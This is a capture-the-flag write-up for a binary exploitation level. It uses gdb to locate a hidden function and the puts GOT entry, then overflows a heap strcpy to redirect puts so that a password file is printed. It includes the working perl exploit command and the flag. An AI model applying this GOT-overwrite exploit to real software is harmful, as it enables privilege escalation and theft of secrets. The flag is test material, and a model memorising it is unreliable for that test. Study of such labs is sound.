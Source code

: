 # level7

# Analyse
In this level we have an executable `level7`
```bash
> ./level7
Segmentation fault (core dumped)
> ./level7 arg
Segmentation fault (core dumped)
> ./level7 arg1 arg2
~~
```

Ok so we need 2 arguments to call the executable.

Now let's disassemble the program to understand all (see source).

We see that we have a function `m` that is never called. This function print a global variable & the current time.

In the main function, we do some `malloc` & `strcpy` and then we open `"/home/user/level8/.pass"` and we write his content in the same global variable as `m`.

If we call `m` after `fgets` function, `m` will write the password !

# Exploit
To call `m` we replace the call of `puts` by a call to `m`.

Let's get the `m` and `puts` addresses:
```bash
> gdb level7
(gdb) $ p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>  ; <- addr of m: 0x80484f4
(gdb) $ disass puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    DWORD PTR ds:0x8049928  ; <- addr of puts: 0x8049928
   0x08048406 <+6>:     push   0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```

Now we can see that if we strcpy a long str, the content of this str will be used in the next strcpy:
```bash
> gdb level7
(gdb) $ run "`perl -e 'print "A"x30'`" "BBBB"
...
[-------------------------------------code-------------------------------------]
   0x80485b3 <main+146>:        mov    eax,DWORD PTR [eax+0x4]
   0x80485b6 <main+149>:        mov    DWORD PTR [esp+0x4],edx
   0x80485ba <main+153>:        mov    DWORD PTR [esp],eax
=> 0x80485bd <main+156>:        call   0x80483e0 <strcpy@plt>
   0x80485c2 <main+161>:        mov    edx,0x80486e9
   0x80485c7 <main+166>:        mov    eax,0x80486eb
   0x80485cc <main+171>:        mov    DWORD PTR [esp+0x4],edx
   0x80485d0 <main+175>:        mov    DWORD PTR [esp],eax
Guessed arguments:
arg[0]: 0x41414141 ('AAAA')
arg[1]: 0xbffff88c ("BBBB")
```

In this example, we see that if we send 30 A in the first argument, the second strcpy will try to write `"BBBB"` in address `0x41414141` -> "AAAA". Now we try to see the right offset.

## Calculate the offset

```bash
pattern create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
b *(&main+124)
r 'AAA%AAsAABAA$AAnAACAA-(AAAADAA;AA)AAEAAaAA0AAFAAbA' bbbb
```

```
[------------------------------------stack-------------------------------------]
...
0024| 0xbffff5d8 --> 0x804a028 ("AACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA")
0028| 0xbffff5dc --> 0x804a008 --> 0x1
[------------------------------------------------------------------------------]
```

`b[0]` -> `0x804a028`

`b[1]` -> `0x804a02c`

```bash
x/s 0x804a02c
0x804a02c:	 "A-AA(AADAA;AA)AAEAAaAA0AAFAAbA"
```

```
AAA%AAsAABAA$AAnAACA A-AA(AADAA;A A)AAEAAaAA0AAFAAbA
20 ------------------^
```

# Exploit

The offset is 24. So we will write 20 A, then the address we want to change (`puts`) and for the second argument, the `m` address.
```bash
> ./level7 "`perl -e 'print "A"x20 . "\x28\x99\x04\x08"'`" "`perl -e 'print "\xf4\x84\x04\x08"'`"
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1591179845
```

# flag
```
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
